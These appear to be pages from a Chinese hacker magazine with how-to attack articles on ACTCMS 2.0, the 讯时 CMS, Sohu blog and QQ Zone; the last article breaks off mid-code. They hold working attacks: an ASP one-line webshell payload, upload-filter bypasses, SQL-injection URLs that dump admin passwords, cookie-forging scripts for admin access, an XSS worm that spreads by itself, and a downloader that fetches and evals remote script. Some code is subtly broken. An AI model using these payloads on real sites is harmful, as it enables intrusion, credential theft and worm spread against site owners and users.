有点小小的悬疑在里面，事件到最后才真相大白，让人松了一口气。此篇还是前几集的延续，但风格和前几集（“断头台”1—4 集请见 2008 年《黑客杂志》手册）又有了区别。如果套用个术语来说的话，应该算转手法写作吧。不过令人遗憾的是，这将是“断头台”系列的最后一集了。作者已明确说明，此系列不再更新，各位“断头台”的粉丝们敬请节哀。但我们还是希望在新的一年里，作者能给我们带来新的黑客小说，我们继续期待……

## 小天新年祝福

大家拿到杂志的时候，应该快过农历的新年了。一年时间很快就过去了，不知道你的技术进步了多少，不知道这一年的“新闻练练看”是否让你满意？如果你有任何建议或者意见，都非常欢迎反馈给我们。

新的一年马上到来，小编给各位拜个早年，祝愿大家来年技术大大的长进，期待你在“新闻”的舞台上分享自己的成功和经验。

## 看菜鸟也找出 ACTCMS 2.0 伤疤

图 孤木绕城 [L.S.T]

- 从本文你可以学到：
- ACTCMS 2.0 漏洞分析
- 漏洞产生的原因和原理分析

### 一、漏洞初探

其实 ACTCMS 这套系统早就保存在我的电脑里了，以前就分析过 ACTCMS 2.0。可是说起来惭愧，那时技术太差，代码能看懂就不错了，更别说找漏洞了，而且这套系统的安全性还凑合。不过好歹也受过“黑手”这么长时间的熏陶了，硬着头皮上吧。

在真正分析漏洞之前还是在网上先搜索一下，结果只找到了一小帅的一篇关于 ACTCMS 漏洞的文章，里面说 check.asp 页面对 clubuser_id 没过滤。可是我在整站程序里根本就没找到 check.asp 这个文件，郁闷……看来作者所说的那套系统应该不是 2.0 版本的。那就没办法了，只有自己看代码分析了。

首先搭建下平台，这套 CMS 如果要使用的话还需要安装，如图 1 所示。


同意协议并点“继续”，下一步就来到了网站初始化的关键地方，如图 2 所示。

大家一定都看到其中的“管理认证码”输入项了吧？默认的是 ACTCMS，熟悉动易的朋友一定都知道，不过动易的认证码是需要自己在网站源码中修改，而 ACTCMS 2.0 则可以在系统初始化的时候修改。

这样一来，认证码被站长改变的可能性就很大了，再加上经过 md5 加密的“登录密码”，想通过登录后台拿 webshell 就很难了。从这点来看，我就感觉这套 CMS 安全性还凑合。

还有就是在经过图 2 的步骤之后，会在“ACT_inc\Lock”目录下生成“Install.lock”这个文件，并且每当访问首页“index.asp”的时候，程序就会用 FileSystemObject 对象检查“Install.lock”是否存在，如果不存在，程序就会认为该网站还没有经过初始化安装，就会跳到图 2 的界面。

我分析了下，其实认证码这东东还是存在安全隐患的！因为如果在修改管理认证码的地方插入一句话木马（因为认证码是要写进 asp 文件中的），这样我们就能很轻松地拿 webshell 了。

我构造的认证码是：`"%><%execute request("gsrc")%><% '"`，设置好了之后，再用一句话木马的客户端访问“Admin\CheckCode.asp”就能上传我们的大马了。不过这个漏洞相当的鸡肋，没有初始化配置的网站估计没有，找不找得到那就看大家人品了。

### 二、蛮有特色的防注入

说起注入和跨站来就有气，费了好大力气去找注入点，可是最后还是没找到什么有用的注入和跨站。不过这里有必要说明一下，因为网站作者对于注入的思路还是很好的，这里拿出来给各位脚本安全爱好者们共享下。

程序对注入进行过滤的分别是 S()、ChkNumeric() 和 RSQL() 三个函数。S() 函数过滤了单引号和双引号，ChkNumeric() 函数则检测参数是否为数字（对于数字型的参数，这个函数很霸道，只要用它过滤了，注入就没有希望了）。和 S() 函数一样，RSQL() 函数也用于过滤掉特殊字符，其定义如下：

```vb
public Function RSQL(strChar)
if strChar = "" or IsNull(strChar) Then RSQL = "": Exit Function
Dim strBadChar, arrBadChar, tempChar
strBadChar = "$,*,!,%,^,&,?,(,),[,],{,},/,\\,:,;,\"" & Chr(34) & ",',#,@,|"
arrBadChar = Split(strBadChar, ",")
tempChar = strChar
For I = 0 To UBound(arrBadChar)
    tempChar = Replace(tempChar, arrBadChar(I), "")
Next
RSQL = tempChar
End Function
```

我们经常看到的某某版通用防注入程序都是对注入的关键字进行过滤的，比如“|and|exec|insert|select|delete|update|count|%|chr|mid|master|truncate|char|declare|''|"|”这些，不过这套程序却对特殊字符进行了过滤，这样的过滤方法使得安全性提高了不少。

因为我们注入的时候所构造的语句一定要包含上面的一些特殊字符，大家可以想想经典的注入语句（ACTCMS 2.0 版本的是 Access 数据库），我就拣关键的给大家提个醒：`“and (select asc(mid(pass,1,1)) from [name] where id=1)>49”`（不包括双引号）。

这条语句可以猜测用户名或者密码，可以说是注入 Access 数据库的核心语句了，我们看看都是什么字符触到了 RSQL() 函数的痛处：有“(”、“)”、“[”、“]”、“>”。

那么经过 RSQL() 函数过滤之后，剩下的就成了 `“and select ascmidpass,1,1 from name where id=149”`，大家看到了吧，这样的语句是不可能猜解出什么来的。而且我们也不能通过转换大小写，或者用插入 TAB 键之类的方式来绕过（这不是废话啊！谁听说过给特殊字符转换大小写，往中间加东西的）。

我也试着把特殊字符用 URL 编码来绕过，不过后来才知道，对于 Request.QueryString()、Request.Form() 等，接收之后的参数会把编码还原回原来的样子再赋值给变量。

对于如何绕过过滤进行注入的方法，网上目前还没有，也没听说过哪位牛人能摆平，而且这个函数还可以过滤跨站语句，是不是一举多得啊？既小巧又实用（打广告啊！），是不是很厉害啊？总结一下，只要过滤了 `“'”`、`“()”`、`“>”`、`“<”`、`“s=”` 和 `“ ”`（最后一个是空格）这几个字符，那么一般的 Access 注入就可以防范了，而且对于跨站也是有一定作用的，因为跨站语句也需要“<”、“>”这些字符，这样过滤特殊字符的方法真的超牛啊！

### 三、无惧无组件上传揭秘

ACTCMS 2.0 这套系统上传用的是无惧无组件，在 user 目录下的 UpFileSave.asp 负责上传。您在“黑手”的 08 年 08 期杂志上曾经分析过无惧无组件的 BUG，不过 ACTCMS 2.0 的漏洞就不怎么好利用了，要受到很大的限制。不多说了，大家看上传的关键代码：

```vb
const ForbidFileType="asp,aspx,htm,html,js,shtml,zip,cer,cdx"
const EnableUploadFile="Yes"
dim upload,oFile,formName,SavePath,filename,fileExts,oFileSize
dim EnableUpload
dim arrUpFileType
dim ranNum
dim msg,FoundErr
msg=""
FoundErr=false  'FoundErr 和 EnableUpload 这两个变量相当重要：上传成不成功就靠它俩了！
EnableUpload=False
'......省略 N 行代码......
for each formName in upload.file    '列出所有上传了的文件（一次是第一次 for 循环）
  set oFile=upload.file(formName)   '生成一个文件对象
  oFileSize=oFile.filesize
  if oFileSize<100 then
    msg="请先选择你要上传的文件！"
    FoundErr=True
  elseif oFileSize>(UpfileiSSize*1024) then
    msg="文件大小超过了限制，最大只能上传:" & CStr(UpfileiSSize) & "K"
    FoundErr=true
  end if
  fileExts=lcase(trim(oFile.fileExt))
  if (instr(ForbidFileType,fileExts)<>0) then   '①这是第一关，用了 instr() 函数；如果上传的文件格式与 ForbidFileType 正好匹配，EnableUpload 就为 false 了
    response.Write("不允许上传的文件类型：" & fileExts)
    EnableUpload=false
    response.End()
  end if
  arrUpFileType=split(UpFileType, "|")
  Dim i,strJS,File
  for i=0 to ubound(arrUpFileType)   '②关键的第二次 for 循环
    if fileExts=trim(arrUpFileType(i)) then   '②第三关到了，检查文件后缀是否和设置的一致。默认设置的可以上传的格式为：.jpg|gif|bmp|png|swf|rar|exe
      EnableUpload=true
      exit for
    end if
  next
  if fileExts="exe" or fileExts="asa" or fileExts="aspx" then   '③第三关：这里的 asa 我们可以用“.asa ”（asa 后面有一个空格）来绕过
    EnableUpload=false
  end if
  if EnableUpload=false then   '④后面的就是第四关：根据 EnableUpload 和 FoundErr 来判断我们上传的文件是否非法。
    msg="这种文件类型不允许上传！ \n\n只允许上传这几种文件类型：" & UpFileType
    FoundErr=true
  end if
  strJS="<SCRIPT language=javascript>" & vbcrlf
  if FoundErr<>true then
    randomize
    ranNum=int(900*rnd)+100
    filename=year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExts
  end if
```

```vb
......
是和设置的一致。默认设置的可以上传的格式为：.jpg|gif|bmp|png|swf|rar|exe
    EnableUpload=true
    exit for
  end if
next
if fileExts="exe" or fileExts="asa" or fileExts="aspx" then   '③第三关
  '......
  EnableUpload=false
end if
if EnableUpload=false then   '④后面的就是第四关：根据 EnableUpload 和 FoundErr 来判断我们上传的文件是否非法。
  msg="这种文件类型不允许上传！ \n\n只允许上传这几种文件类型：" & UpFileType
  FoundErr=true
end if
strJS="<SCRIPT language=javascript>" & vbcrlf
if FoundErr<>true then
  randomize
  ranNum=int(900*rnd)+100
  filename=year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExts
```

大家可以拿出 08 年 08 期的“黑手”对比一下，大体上和网域科技的上传一样，不过 ACTCMS 2.0 则多了 `const ForbidFileType="asp,aspx,htm,html,js,shtml,zip,cer,cdx"` 和 `if(instr(ForbidFileType,fileExts)<>0) then response.Write("不允许上传的文件类型："&fileExts)` 这一层的检测。

对于这套无组件上传程序，如果上传单一文件的话，漏洞是不存在的，因为在第二个 for 循环，即我标注的②处（为了方便下面的分析，我均用①-④等表示）这关就过不了。但是如果我们同时上传两个或多个文件，那结果就不同了。这就要求我们自己构造网页提交来实现，如图 3 所示，这样我们上传之后就能够达到上传 webshell 的目的了。还有一点要说明，因为 UpFileSave.asp 这个文件有权限验证，我们注册一个普通会员，保证处在登录的状态就 OK 了。


为了照顾菜鸟，我就用这套系统把无惧无组件上传漏洞的实现过程具体地推敲一下：

首先运行上传的客户端，然后通过第一个“浏览”选择一个图片（123.gif），第二个“浏览”选择一个 PHP（dama.php）的大马，如图 3 所示，注意顺序千万不能颠倒啊！为了有助于理解，我就把 123.gif 比作“车一”，把 dama.php 比作“车二”，把 fileExts（后缀名）比作“车牌”，这样 123.gif 的车牌就是 gif 了，相应的 dama.php 的车牌就是 php。

提交一下，把我们的“车一”、“车二”送进“轨道”，下面这两个变量很重要，现在给出它们的初始值：

```vb
FoundErr=false
EnableUpload=False
```

①“车一”先进入到第一个 for 循环处，很快“车一”就到了①，这时需要“车一”出示车牌了，即 gif。把车牌交给 instr() 然后就开始和 `"asp,aspx,htm,html,js,shtml,zip,cer,cdx"` 一个一个比对，因为这里不能匹配，所以 instr() 返回 0，then 后面的就不执行。

“车一”继续前进，接着到了②的 for 循环处，把“车牌”分别与②处的几个格式比较，这次 gif 当然就匹配上了，所以 EnableUpload 就不为 false 了，即 EnableUpload=true，而且 FoundErr 保持不变，FoundErr=false。

之后“车一”也是顺利地通过了③、④的检查传到服务器上了。

这样（二）处的第一个 for 循环也就结束了，因为我们同时上传两个文件，下面就轮到“车二”了。注意此时两个变量的状态：EnableUpload=true，FoundErr=false。

与“车一”相同，“车二”先来到①，亮出车牌（php）与 ForbidFileType 比较，很幸运通过了①，EnableUpload=true 不变。接着来到最最关键的②进行第二次 for 循环，每次循环都要在②处 if 语句检测，这次 php 一直匹配到 exe 也没匹配上，那么 then 后面的语句不能执行，下面的 EnableUpload=true 也不会被执行。

但是大家注意，这时 EnableUpload 仍然为 true，这就好，“车二”退出（二）for 循环之后很顺利通过了③，之后就到④了，因为 EnableUpload=true，那么 then 后面的 FoundErr=true 不会执行，FoundErr 仍然是“车一”上传完后保持的 false 状态。就这样，“车二”也是一路过关斩将顺利上传成功了，结果如图 4 所示。


图 4 上传成功

通过上面的分析，大家对无组件上传漏洞一定都有所了解了吧？如果哪位仁兄还是不明白，我也就没办法啦，赶紧买两本“黑手”恶补吧。

到这里后缀欺骗是成功了，不过当我查看源文件的时候却找不到文件上传之后的路径。没有上传文件的路径，就是传上去了我们也没办法访问。最后在后台上传的时候，发现图片上传之后的路径可以通过查看源代码找到，那我们就抓包看看。

抓包后的信息如图 5 所示，鼠标选中的内容是“POST /admin/Include/UpFileSave.asp?ModelID=1&instr=0&instrname=PicUrl&YNContent=1&instrct=content HTTP/1.1”，看来要能查看到路径还得提交上面的这些参数。

接下来就好办了，把上传工具 form 里的“action=http://192.168.18.128/user/UpFileSave.asp”改成“action=http://192.168.18.128/user/UpFileSave.asp?ModelID=1&instr=0&instrname=PicUrl&YNContent=1&instrct=content”，按照上面说的方法上传完后，查看下源文件就可以找到马马的真实路径了，如图 6 所示。

到这里上传的问题就都解决了，除了我演示的 php 文件，能够上传的还有 jsp。有的朋友可能要问了，如果服务器不支持 php 和 jsp，那怎么办？

不知道大家想没想到还可以上传 stm 这个后缀的文件？虽然 ACTCMS 2.0 的注入漏洞不好找，可是 stm 比注入还好使。只要我们在 stm 文件里写上“<!--#include file="../../../conn.asp"-->”（不包括双引号）这么一句，上传到服务器后再访问并查看源文件，那么 conn.asp 的源代码就显示了出来，数据库的路径就一览无余了。

把数据库下载下来，想干什么就干什么，这个要比注入来得方便多了，而且一开始我说的那个认证码也可以通过这个找出来。和找数据库路径一样，只要写入“<!--#include file="../../../admin/CheckCode.asp"-->”并查看源码，找到“Const CheckManageCodeContent='ACTCMS'”这句，“CheckManageCodeContent”后面的就是我们要找的认证码了。是不是比注入简单啊？而且解决了认证码的问题（认证码写进了 asp 文件里，注入肯定注入不出来的）。


图 5 嗅探

## 四、后台拿 webshell 大法

数据库和认证码都有了，接下来就该后台拿 shell 了。关于 ACTCMS 2.0 后台拿 shell 的办法，暂时我只想到两种，都需要利用 Windows 2003 解析漏洞才能成功。还有一种方法，开始我已经说过了，删除“ACT_incLock”目录下“Install.lock”这个文件，再次访问网站主页就会让我们重新初始化网站，这样就可以在图 2 的认证码处插入一句话木马。

不过对于如何删除“Install.lock”这个文件还是个难题，虽然有点思路了，可是限于本人技术水平，还是没能攻克。这里提醒个醒，图 10 中对应文件的后面提供改名和删除的功能可以寻求突破，可是我的虚拟机有问题，删除的时候总是报错，这里就不多说了，有兴趣的朋友可以研究下，很好玩的。

#### 1、数据库备份

这套系统提供数据库备份的功能，如图 7 所示。本来我以为很轻松就能拿 webshell 了，可是却连受挫，和 dvbbs 8.0 以后版本的备份一样变态，只允许备份的文件后缀名为 mdb，而且还检测该文件是不是数据库格式的。

Admin/ACT.Data.asp 检测代码如下：

```vb
If Lcase(Mid(Tempbackpath, instrRev(Tempbackpath, ".")+1))<>"mdb" Then
' 只允许备份成 MDB 数据库文件
response.Write "保存数据库名不合法，必须是有效的MDB文件！"
Response.End
End If
FileConnStr = "Provider = Microsoft.Jet.OLEDB.4.0;Data Source = " & Dbpath
' 这里用能否打开备份文件的方法来判断是否为数据库文件
Set Fileconn = Server.CreateObject("ADODB.Connection")
Fileconn.open FileConnStr
If Err Then
    Response.Write Err.Description
    Err.Clear
    Set Fileconn = Nothing
    ShowErr = "备份的文件并非合法的数据库。"
```


图 6 真实路径

| 备份论坛数据（需要FSO支持，FSO组件） |
|---|
| 当前数据库路径（相对路径）：/data_act/actcms.mdb |
| 备份数据库目录（相对路径）：../Databackup |
| 备份数据库名称（填写名称）：ActCMS_Backup_2008-9-3.mdb |
| 确定 |

图 7 备份功能

程序只提供了数据库压缩和数据库备份功能，没有数据库恢复（动网的是用数据库恢复拿 shell 的），不过大家别着急，图 7 中备份目录处有一句“如目录不存在，程序将自动创建”，哈，聪明的你应该想到了吧？貌似可以新建文件夹哦！这样可以试试用 Windows 2003 解析漏洞来突破它。

因为程序对我们备份的文件检测是不是合法的数据库文件，那么我们只能准备一个插入一句话的数据库，然后把它改成 gif 格式的图片上传到服务器上。找到图片的地址后，把图片地址填到“当前数据库路径（相对路径）”，备份数据库目录就填写“*.asp”，我这里写的是“1.asp”，如图 8 所示，是我填写好的。


备份好后我们就可以用一句话客户端访问“http://192.168.18.128/1.asp/ACTCMS_Backup_2008-9-3.mdb”了，如果顺利的话就会拿到一个 shell，如图 9 所示（用到的一句话数据库木马我会提供给大家，只要把后缀改成 jpg 就行，里面的一句话也可以自己修改）。

### 2、编辑模板拿 shell


现在站长们的安全意识都很强，数据库备份的功能一般都会删除（反正我的网站不会留着这么一个大的隐患），如果数据库备份功能被删掉了的话，我还有一种方法可以拿到 webshell，就是后台提供的编辑模板功能。

这个功能站长们一般是不会删除的，如图 10 所示。首先新建目录（即我标注的①处），在弹出的对话框中输入“1.asp”，确定之后就生成了“1.asp”这个目录。然后我们双击进入该目录，选择“新建模板”，在模板中插入一句话木马（也可以直接把大马写上去，这样更简单），如图 11 所示。


现在保存下就 OK 了，然后我们到“1.asp”目录下，如图 12 所示，找到刚才新建好的模板，选择“预览”就能访问到我们插入的一句话木马了，如图 13 所示。


### 五、写在最后

这套程序总的来说还算是很安全的，只是在对上传方面的措施还没有做到位。这里我们能看到程序方在努力地帮截漏洞，可是由于对无组件上传漏洞的发生还不是太了解，造成漏洞的产生。不过那个上传漏洞确实需要补上（要不干脆就把 user 目录下的 UpFileSave.asp 给删除了），补救方法我在 08 年 08 期《黑手》写过了，不废话啦。最后还是祝“黑手”越办越好。

> 编辑点评：很难得的一个系统，作者分析了其中的几个漏洞，举例子说明得很清晰，可以让大家对其中漏洞产生的原因和运行的原理有很清晰的认识。另外，这篇文章中对系统的防 SQL 注射方法还是挺值得推荐的。


## 讯时漏洞浅析和利用

- 从本文你可以学到：
- 讯时漏洞梳理和总结
- 漏洞的利用方法整理

自牛人对讯时 2.7 版本三顾以来（参考《黑手》2007 年 04 期），人们便把目光投向这个毫不起眼的新闻系统。虽然讯时一直修补漏洞，不断在升级系统版本（最新版本是 3.5），但程序员在编写程序时，似乎总是对提交的参数上的过滤处理得比较混乱，使得我们可以通过相似的一些方法绕过程序的过滤进行注入攻击，导致讯时系统的各版本漏洞层出不穷。

下面就以使用较多的一个版本的网站为例，我们参照 2.7 以后的版本漏洞加以测试，具体的代码分析略过，只着重于漏洞的利用方法并加以说明。

### 一、注入漏洞的利用

#### 1、漏洞页面文件：admin_news_view.asp

作者提到该文件未进行权限判断，导致用户可直接进行访问（以后的版本做了修改，不能直接进行访问了），其中对 newsid 变量只过滤了两边的空格就参与了数据库的查询，但在包含的 admin_conn.asp 文件中过滤了 request.querystring() 方法提交的内容，过滤内容是 select、inster、delete、"、or，主要代码如图 1。

```vb
sss=LCase(request.servervariables("QUERY_STRING"))
if instr(sss," select")<>0 or instr(sss," inster")<>0 or instr(sss," delete")<>0 or
   instr(sss," (")<>0 or instr(sss," or ")<>0 then
    response.write "你的网站不合法"
    response.end
end if
```


使用 cookie 注入的方法就可绕过，具体的利用方法请参考“黑手”2007 年 04 期。

#### 2、漏洞页面文件：RssNews.asp

在讯时 2.9 版本中，RssNews.asp 文件对变量 lm 没进行过滤，变量提交的方式是 request()，但在包含的 admin_conn.asp 文件中同样过滤了 request.querystring() 方法提交的一些关键字，这儿可采用另一种方法（对过滤的关键字部分或全部进行 URL 编码）来绕过，利用形式如下：

```text
http://www.xxx.com/webfiles/RssNews.asp?lm=23%20and%20'hg'='jkh'%20union%73elect%201,2,3,4,5,6,7,8%20from%20admin
```

（%73 对应的是 s），实测截图如图 2，在窗口标题和页面中都显示出管理员的用户名和密码。


在 2.9 版本中还有一个 lmcode.asp 文件页面也存在着同样可绕过的注入漏洞，注入语句如下：

```text
webfiles/lmcode.asp?fs=4&id=32%20and%201=2%20union%20%73elect%201,2,3,4,5,6,7,8%20from%20admin
```

实测截图如图 3。


#### 3、漏洞页面文件：JS-XGXX.asp

这个是针对 3.0 至 3.4 版本的系统，JS-XGXX.asp 是个调试文件，对 xgnews 参数没有过滤后就进行数据库查询，导致漏洞的产生。

这是个搜索型的注入漏洞，同样在 admin_conn.asp 文件中过滤了 request.querystring() 方法提交的内容，但 xgnews 参数是用 request() 方式直接获取的，可采用 cookie 注入的方法和绕过 request.servervariables("QUERY_STRING") 对过滤的 select、inster、delete、"、or 这些关键字部分或全部（大写格式）进行 URL 编码的方法进行注入。

检测是否为注入点的语句如下：

```text
http://www.xxx.com/JS-XGXX.asp?id=1&xgnews=%B9%AB%CB%BE%25'%20%41nd%201='1%20%41nd'%25'='
```

（%25 对应的是 %；%41 对应的是 A；%B9%AB%CB%BE 对应的是搜索的关键字“公司”的 URL 编码），实测后的返回正常页面如图 4，返回错误页面如图 5。


将注入点地址填入 hdsi 工具，选择“搜索型”注入方式，使用关键字“公司”进行检测即可，如图 6。


#### 4、漏洞存在的页面：news_more.asp

“黑手”2008 年 02 期只提到这个页面存在漏洞，但未给出具体的利用方法。在这个文件中，对 lm2 的变量没有使用 isNumeric 函数进行过滤，导致可以进行注入。在 3.5 版本中，对 request.servervariables("QUERY_STRING") 做了修改，但对 request.querystring() 方法获取的变量没有使用 LCase 函数。只要使用大写（URL 编码后的），如对 select 变形为 %53elect 的方法，照样可绕过。

其它文件中照样使用了 request() 方式获取变量，漏洞依然存在，利用语法如下：

```text
http://www.xxx.com/news_more.asp?lm=1%20%4lnd%20l=2%20union%20%53elect%201,id,3,0x3b%26user,0x3b%26pass,6,7,8%20%46rom%20%41dmin%20union%20%53elect%20*%20%46rom%20lm%20where%20l=2
```

（%41 对应的是 A，%53 对应的是 S；%46 对应的是 F；0x3b%26 对应的是 ;&），实测如图 7。


对应的管理员用户名和密码显示在页面窗口的标题处，通过查看源代码即可看到，如图 8。但有的版本会直接显示在页面上，如图 9。


#### 5、admin_link_js.asp 文件（设置链接文件）

该文件未包含 admin_chk.asp 文件，而且对变量 n 未过滤，导致了注入漏洞的产生。但在各版本中，该文件有的是在根目录下，有的是在管理目录下，还有就是查询“link”表中字段数也各不相同，3.5 版本中的字段数为 12，有的版本字段数却为 7 个。在实际应用中，大家要根据不同情况来改变，我的注入语句如下：

```text
http://www.xxx.com/admin/admin_link_js.asp?link=3&n=3%20id%20as%20id,user%26%3b%26pass%20as%20linkname,pass%20as%20url,4,5,0x53%20as%20ontop,0x53%20as%20upd,8,9,10,11,12%20%46rom%20%41dmin%20union%20%53elect
```

实测（以 12 个字段）后页面如图 10（上面实测的网站无链接内容，这以另一网站为例），说明字段列数不匹配，修改注入语句后得到最终结果，如图 11。

### 二、跨目录浏览漏洞

讯时系统使用的是 eWebEditor 编辑器，该编辑器系统自身存在着可以跨目录浏览的漏洞，讯时系统自然也被带入其中。Edit 目录下的 admin_uploadfile.asp 文件对参数 dir 未过滤，访问时使用 cookies 验证，语句为“if request.cookie("admindj")<>"1" then……”，直接访问的话会提示权限不够，如图 12。


大家知道，在 ASP 中 cookies 是保存在客户端的，我们只要构造一个 cookies 就可绕过验证。首先使用 `javascript:alert(document.cookie="admindj=1")` 语句来伪造 cookies，如图 13。

然后提交 `http://www.xxx.com/webfiles/Edit/admin_uploadfile.asp?id=46&dir=../../..`（注意 dir 不能以 \ 或 / 开头）就可以进行目录浏览了，如图 14。

此漏洞对各版本通用，它可以方便我们查找管理员登录路径、管理数据库目录。该漏洞还导致文件及文件夹被任意删除（慎用）。

### 三、后台的欺骗登录和注入的利用

### 1、cookies 欺骗登录后台

通过上面注入的漏洞利用，我们已得到管理员的用户名和密码，但密码是 MD5 加密的，如果无法破解的话，我们可以利用讯时的后台验证漏洞来进行欺骗登录。讯时系统后台登录页面是使用 cookies 验证的，而 cookie 是……

## 新词练练看


保存在客户端，加上验证并不严，我们就可以在客户端修改 cookie 来通过验证，从而访问到本应该不能访问的页面。如从上面注入得知管理员的密码为 37b79308b403bae247f614f8f3bc9a23，但无法破解，如图15。

我们可以通过伪造 cookies 来进行欺骗登录，直接把浏览器的地址栏清空后输入如下语句：

```javascript
javascript:alert(document.cookie="adminuser="+escape("admin"));javascript:alert(document.cookie="adminpass="+escape("37b79308b403bae247f614f8f3bc9a23"));javascript:alert(document.cookie="admindj="+escape("1"));
```

点击相继出现的三个对话框的确定按钮后，再清空地址栏，输入 `http://www.xxx.com/webfiles/admin/index.asp` 就可直接进入后台，如图16。


#### 2、后台验证页面 admin_chk.asp

文件中先用 request.cookies() 方法从客户端获取 adminuser、adminpass、admindj，然后存入服务器端的 session 中，并只过滤了变量 user、pass 的两边空格后就进入 SQL 语句查询，SQL 语句如下：

```asp
Sql = "select * from admin where [user]='"&adminuser&"' and [pass]='"&adminpass&"' "
```

而对于讯时系统来说，要访问管理页面，只要数据库查询结果为真就可。先在浏览器地址栏输入 `http://www.xxx.com/webfiles/login.asp?id=8`，出现登录页面，如图17。

清空地址栏后，再输入以下语句：

```javascript
javascript:alert(document.cookie="adminuser="+escape("%27%6F%72%27%3D%27%6F%72%27"));javascript:alert(document.cookie="adminpass="+escape("%27%6F%72%27%3D%27%6F%72%27"));javascript:alert(document.cookie="admindj="+escape("1"));
```

`%27%6F%72%27%3D%27%6F%72%27` 对应的是 `'or'='or'` 的 URL 编码，刷新页面，相继点击连续弹出的三个对话框，如图18、图19、图20。


地址栏输入 `http://www.xxx.com/webfiles/admin_index.asp` 后，按 F5 刷新下，这样可以进入后台，如图21。

输入 `http://www.xxx.com/webfiles/admin_admin.asp` 则进入后台更改管理员密码的页面，如图22。

以上只是学习别人对该系统漏洞的分析并加以总结、实测的过程，当然还加入了一些自己摸索到的方法。学习中我们应该深刻理解高手分析代码、挖掘漏洞的思路，搞懂漏洞产生的原理，再加以一步步的实践，这样才能对自己的水平有所提升！！！！

> 编辑点评：
>
> 本文对讯时议政版本出现的漏洞进行分析和总结，很好地进行了梳理，一来加深自己对该类型漏洞的理解；二来可以作为很好的备忘录，对以后自己知识体系的建立非常有用。讯时的这么多漏洞，你都掌握了么？

## Ajax_sohu 博客的一个小蠕虫

圆小帅【O.S.T】/逝前恨孤 00 号

- 从本文你可以学到：
- 搜狐博客 XSS 利用
- XSS 的分析和使用

### 无聊开头

最近无聊，看了下《越狱》，感觉很刺激。枕头边上还有 ajax 的书，拿出来看了下，看到里面的 eval() 和 indexOf()，让我想起了一篇文章，其实是茄子宝宝写的，我忘掉名字了。于是有个冲动，试试看写点什么，反正现在的 ajax xss 很多，许多人不在乎它的安全，那我们就开始一次搜狐博客的 ajax 蠕虫之旅吧。

### 分析利用

我选择搜狐是因为看到茄子宝的博客被“和谐”了，但是幸好又找到了他刚开的一个博客，顺手就那么点进去，看到里面的一篇文章，打开一看，就弹了一个框框。先汗个……我就想，不就是什么 alert() 么？一抓一大把的。但是经过我 N+N+1 次的测试发现，搜狐经过了很大的变化，不是以前那样随便输入就可以涂鸦了，什么制表符、16 进制都没什么用了，貌似全部被和谐掉了。

郁闷之下“参考”了茄子宝大牛的利用方法，惊讶的是，原来竟然没过滤 `<、>`！那是什么情况呢？！原来他用了注释，HTML 里的注释。请看以下代码：

```html
<!--[if IE]>

<![endif]-->
```

看到这东西我明白了，果然还是牛人聪明啊。于是，搜狐就这么被 XSS 掉了。

一般的 ajax xss 无非就是类似以下代码的类型：

```javascript
var url = "http://www.xxx.com/xx.do"
var xmlhttp = new ActiveXObject('Microsoft.XMLHTTP')
xmlhttp.open("GET", url + 参数, false);
xmlhttp.send();
```

那么我们来做一个感染的 XSS，用自动添加友情链接的功能（——现在的人都有这嗜好），先抓个包，如图1。然后我们写一段 ajax，代码如下：


```html
<!--[if IE]>
<script src=javascript:var xmlhttp;
function createXMLHttpRequest(){
 if(window.ActiveXObject){
  xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');
 }else if(window.XMLHttpRequest){
  xmlhttp=new XMLHttpRequest();
 }
}
// 创建一个 xmlhttp 对象
function xiaoshuai(){
 createXMLHttpRequest();
 XMLHttpRequestObject.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
 xmlhttp.open('post','/manage/module.do',false);
 xmlhttp.send(escape('m=update&id=m_30988476&type=my-links&title=&data=%7B%22linkList%22%3A%5B%7B%22title%22%3A%22username1%22%2C%22desc%22%3A%22username2%22%2C%22url%22%3A%22http%3A//www.xssor.cn/location.html%22%7D%5D%7D"));
}
window.document.onload='xiaoshuai()';/>
```

其中抓包的信息里，描述是 **username2**，链接显示是 **username1**，link 地址是 `www.xssor.cn/location.html`，你把它换成你博客的首页就好了，因为这个在首页也是可以执行的，如图2。


### 结尾补充

整个文章是从遇到了 xss 的过滤，接着到解决了过滤（借鉴了别人的办法），最后写了一小段 ajax 来感染。一个小小的蠕虫就是这么诞生的，希望做安全的朋友们能从标签开始进行小心的过滤。写到最后，我想起来了！！！其实大家也可以用 xss downloader！什么是 xss downloader？是茄子写的一个小东西，代码如下：

```javascript
javascript:a=new ActiveXObject('Microsoft.XMLHTTP');a.Open('get','http://xxx/xss.htm',false);a.send();b=a.responseText;eval(unescape(b.substring(b.indexOf('<!--')+3,b.indexOf('//-->'))))
```

计算从第一个 `<!--` 开始的字符串到 `-->` 结束，然后这代码就开始工作了。我们何不把自己会被过滤掉的代码写到正常的文章里呢？然后用 xss downloader 来工作。这样也能周而复始地传播，而且解决了有时候会遇到的跨域问题。这也是我从茄子那学来的，网络的资源很多，要多多善于学习哦。

> **编辑点评：** 很巧妙的一篇文章，绕过 sohu 的过滤成功实现 XSS，加上作者编写的一段 Ajax，威力不小。其中说到的一些技巧，值得每个想了解 XSS 的朋友掌握。

## QQ 空间的 DOM XSS

**从本文你可以学到 QQ 空间 XSS 漏洞分析和利用**

前几天在网上看到了关于 baidu 的 DOM xss 和一些 xss 的挖掘，小菜是五体投地地佩服啊，没想到大大的百度竟然能被挖出那么多的 xss。于是我在我心理的怂恿下，兴高采烈地来到了 sina，传说中的好博客站。sina 是多么希望被挖出点 XSS 的呀，既然大家那么盼望，我早上远渡而来是怎么找到 DOM XSS 的，那就先来说说 QQ 空间的 XSS 吧（众人曰：你丫欺骗群众幼小心灵）。

首先打开 QQ 空间（地球人都知道吧？），然后在文章那里点击，并且发表一篇叫做 “test” 的日志，接着打开“添加链接”，然后把测试语句丢进去，如图1。


确定后回到页面，看看页面发生了什么情况，如图2、图3。alert 了 xss，这就说明刚才的东西执行啦，而且是完全执行了 `javascript:alert('xss')`，没有被干扰。

下面我们就来看看这个 XSS 的成因。通过查看 QQ 空间的代码，找到貌似有个函数：

```javascript
function checkInputText(type, ele) {
if(!g_arrClickFlag[type]) {
    g_arrClickFlag[type] = true;
    ele.value = '';
    ele.style.color = '#000';
}
}

function confirm() {
    var strText = $('inputLinkText').value.trim().toInnerHTML();
    if(strText.length === 0 || !g_arrClickFlag[0]) {
        alert('请输入要显示链接的文字');
        $('inputLinkText').focus();
        return;
    }
